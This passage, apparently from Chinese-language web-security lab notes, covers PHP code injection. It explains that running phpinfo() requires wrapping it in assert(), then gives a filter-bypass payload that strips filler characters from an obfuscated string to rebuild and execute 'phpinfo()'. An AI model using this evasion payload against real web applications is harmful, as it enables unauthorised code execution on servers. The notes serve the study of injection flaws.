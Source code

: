 没有显示，为什么？

![QQ截图20220411195203](image49/QQ截图20220411195203.png)

没有显示是因为phpinfo（）没有被执行，加个assert（）函数就行

![QQ截图20220411195317](image49/QQ截图20220411195317.png)



#### ※※替换绕过

```python
txt=$y=str_replace('x','','pxhpxinxfo()');assert($y);&submit=%E6%8F%90%E4%BA%A4ce
```
